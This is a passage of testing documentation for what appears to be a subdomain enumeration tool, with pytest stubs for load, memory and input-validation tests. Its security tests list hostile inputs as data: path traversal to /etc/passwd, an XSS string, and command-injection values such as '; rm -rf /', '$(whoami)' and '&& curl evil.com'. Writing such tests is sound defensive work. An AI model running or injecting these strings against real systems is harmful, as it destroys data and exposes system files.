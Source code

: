 ### Load Testing
```python
@pytest.mark.slow
def test_large_wordlist_processing():
    large_wordlist = ['subdomain{}'.format(i) for i in range(10000)]
    # Test processing without timeouts
```

### Memory Testing
```python
def test_memory_usage():
    import psutil
    process = psutil.Process()
    initial_memory = process.memory_info().rss
    # Perform enumeration
    final_memory = process.memory_info().rss
    assert (final_memory - initial_memory) < threshold
```

## Security Testing

### Input Validation
```python
def test_malformed_domain_handling():
    malformed_domains = [
        '',
        '.',
        '...',
        'domain..com',
        'domain.com.',
        '../../../etc/passwd',
        '<?xml>',
        '<script>alert(1)</script>'
    ]
    for domain in malformed_domains:
        # Should handle gracefully without errors
```

### Injection Prevention
```python
def test_command_injection_prevention():
    malicious_inputs = [
        'domain.com; rm -rf /',
        'domain.com`cat /etc/passwd`',
        'domain.com$(whoami)',
        'domain.com && curl evil.com'
    ]
    # Validate no command execution occurs
```

## Test Data Management
